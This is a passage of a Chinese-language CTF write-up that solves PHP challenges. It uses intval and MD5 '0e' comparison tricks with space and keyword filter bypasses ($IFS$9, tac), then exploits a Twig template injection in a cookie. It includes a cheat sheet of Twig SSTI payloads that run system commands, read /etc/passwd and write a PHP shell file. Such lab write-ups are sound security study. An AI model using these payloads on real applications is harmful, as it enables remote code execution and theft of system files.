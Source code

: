 `intval`函数，此函数在处理数据时会在接触到字符串时停止，因此如果输入`100e2`之类的数据，会解释称`100`，但后面在执行`+1`时，`100e2`是解释称`10000`的，因此此处使用`100e2`绕过，结果如下：

`md5`与自己的`md5`值相同,均为`0e`开头即可

```
0e215962017
```

最后`get_flag`这里过滤了`空格`和`cat`

`空格`用`$IFS$9`绕过

`cat`用`tac`或者`ca?`绕过

```
fl4g.php?num=100e2&md5=0e215962017&get_flag=tac$IFS$9fllllllllllllllllllllllllllllllllllllllllaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag 
```

## [BJDCTF2020]Cookie is so stable

`SSTI注入`

和之前一题`SSTI`注入比较相似，但是这题过滤了`+`

测试`cookie`中的`user={{3*3}}`

返回`Hello 9`

说明存在模板注入

确定服务端的语言为`php`之后，范围就很小了，补充下各种语言发生`ssti注入`的模板，如下：

```c
python: jinja2 mako tornado django
php:smarty twig Blade
java:jade velocity jsp
```

 7、确定此处产生`ssti注入`的模板可以为`smarty`、`twig`等，那就一个一个尝试，这里就直接使用`twig`模板的注入方式进行注入了，`payload`：`{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}`即可成功注入

`twig`常用的注入`payload`：

```c
{{'/etc/passwd'|file_excerpt(1,30)}}
{{app.request.files.get(1).__construct('/etc/passwd','')}}
{{app.request.files.get(1).openFile.fread(99)}}
{{_self.env.registerUndefinedFilterCallback("exec")}}
{{_self.env.getFilter("whoami")}}
{{_self.env.enableDebug()}}{{_self.env.isDebug()}}
{{["id"]|map("system")|join(",")
{{{"<?php phpinfo();":"/var/www/html/shell.php"}|map("file_put_contents")}}
{{["id",0]|sort("system")|join(",")}}
{{["id"]|filter("system")|join(",")}}
{{[0,0]|reduce("system","id")|join(",")}}
{{['cat /etc/passwd']|filter('system')}}
```
